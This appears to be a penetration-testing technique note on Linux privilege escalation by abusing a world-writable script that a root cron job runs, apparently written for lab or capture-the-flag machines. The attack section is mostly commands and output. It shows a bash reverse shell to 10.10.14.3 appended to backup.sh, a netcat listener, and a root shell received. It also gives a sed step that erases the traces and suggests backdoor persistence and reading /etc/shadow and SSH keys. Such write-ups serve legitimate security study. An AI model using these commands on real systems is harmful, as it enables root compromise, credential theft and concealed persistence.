 ### 1. Technique Name:

Cron Job Abuse – Writable Scripts Run by Root
### 2. Summary:

Cron jobs are scheduled tasks typically used by administrators to automate repetitive processes. If a cron job is configured to execute a script as `root` and the script is writable by other users, an attacker can modify the script to execute arbitrary commands with elevated privileges. This can lead to full system compromise, especially if the misconfigured script is frequently executed.
### 3. Conditions / Requirements:

- Writable file or script that is executed by a cron job as `root`    
- The ability to modify the script (e.g., `chmod 777`, group-writable, or owner-writable with compromised user)
- The cron job runs the script as `root` (confirmed via `pspy` or process enumeration)
- (Optional) Crontab access not required if schedule is inferred or known
### 4. Enumeration:
#### A. Find world-writable files:

```bash
find / -type f -perm -o+w 2>/dev/null
```
#### B. Identify writable scripts inside cron paths:

```bash
ls -la /etc/cron* /var/spool/cron/
```
#### C. Use `pspy` to identify cron job executions:

```bash
./pspy64 -pf -i 1000
```

Look for patterns like:

```
CMD: UID=0    | /bin/bash /path/to/script.sh
```
#### D. Observe frequency from created artifacts (e.g., timestamped files):

```bash
ls -l /dmz-backups/
```
### 5. Exploitation:
#### A. Review the script content:

```bash
cat /dmz-backups/backup.sh
```
#### B. Append malicious command (e.g., reverse shell):

```bash
echo "bash -i >& /dev/tcp/10.10.14.3/443 0>&1" >> /dmz-backups/backup.sh
```
#### C. Start listener:

```bash
nc -lnvp 443
```
#### D. Wait for cron to trigger and connect back:

```bash
# Reverse shell received
uid=0(root) gid=0(root) groups=0(root)
```
### 6. Post-Exploitation:

- Clean the script after exploitation (optional):    

```bash
sed -i '/bash -i >& \/dev\/tcp/d' /dmz-backups/backup.sh
```

- Consider persistence (e.g., backdoor in a root-owned binary or scheduled task)
- Enumerate further for sensitive files (`/root/`, `/etc/shadow`, SSH keys)
### 7. Example:

Writable script:

```
-rwxrwxrwx  1 root root  230 backup.sh
```

Script content before:

```bash
#!/bin/bash
tar -czf /dmz-backups/www-$(date).tgz /var/www/html
```

Script after:

```bash
#!/bin/bash
tar -czf /dmz-backups/www-$(date).tgz /var/www/html
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

Listener:

```bash
nc -lnvp 443
```

Result:

```bash
connect to [10.10.14.3] from [10.129.2.12] 38882
id
uid=0(root) gid=0(root) groups=0(root)
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #CronjobAbuse